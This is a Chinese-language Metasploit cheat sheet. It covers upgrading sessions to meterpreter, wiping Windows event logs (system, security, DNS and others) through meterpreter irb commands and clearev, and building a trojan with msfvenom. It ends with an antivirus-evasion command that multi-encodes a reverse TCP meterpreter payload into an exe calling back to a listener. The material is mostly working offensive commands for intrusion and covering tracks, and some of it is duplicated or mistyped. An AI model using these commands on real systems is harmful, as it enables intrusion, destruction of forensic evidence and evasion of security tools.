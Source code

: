 ### 将命令行 shell 升级为 meterpreter

exploit -z 会将成功攻击目标后获取的会话放在后台运行

sessions -u 1 将会话 1 升级为 meterpreter

sessions 查看所有会话

session -i 2 切换到 meterp 会话

### 清除踪迹

```bash
sessions -i 1#激活meterpreter
irb #开始清除踪迹
log = client.sys.eventlog.open('system')
log = client.sys.eventlog.open('application')
log = client.sys.eventlog.open('system')
log = client.sys.eventlog.open('system')
log = client.sys.eventlog.open('system')
log = client.sys.eventlog.open('system')
```

```bash
sessions -i 1#激活meterpreter
irb #开始清除踪迹
log = client.sys.eventlog.open('system') #设置想要删除的日志
log = client.sys.eventlog.open('application')
log = client.sys.eventlog.open('security')
log = client.sys.eventlog.open('directory service')
log = client.sys.eventlog.open('dns server')
log = client.sys.eventlog.open('file replication service')
log.clear #删除日志
----
#或者用clearev
clearev
```

## 使用 msf 攻击载荷生成器

使用 msfvenom 工具生成木马程序

1. 创建攻击载荷
2. 将生成的攻击载荷放到目标主机下执行，可以用 upload 命令上传
3. 在 msf 终端启动监听

## 免杀技术

### 多重编码

对可执行文件进行多次编码。shikata_ga_nai 编码时多态的，就是说每次生成的攻击载荷文件都不一样，通过 msfvenom 命令的选项-i 即可实现多重编码。

```bash
msfvenom -p windows/meterpreter/revers_tcp -e x86/shikata_ga_nai -i 5 -b '\x00' LHOST=192.168.1.108 LPORT=443 -f raw|msfvenom -a x86 --platform win -e x86/alpha_upper -i 2 -f exe -0 /root/payload.exe
```
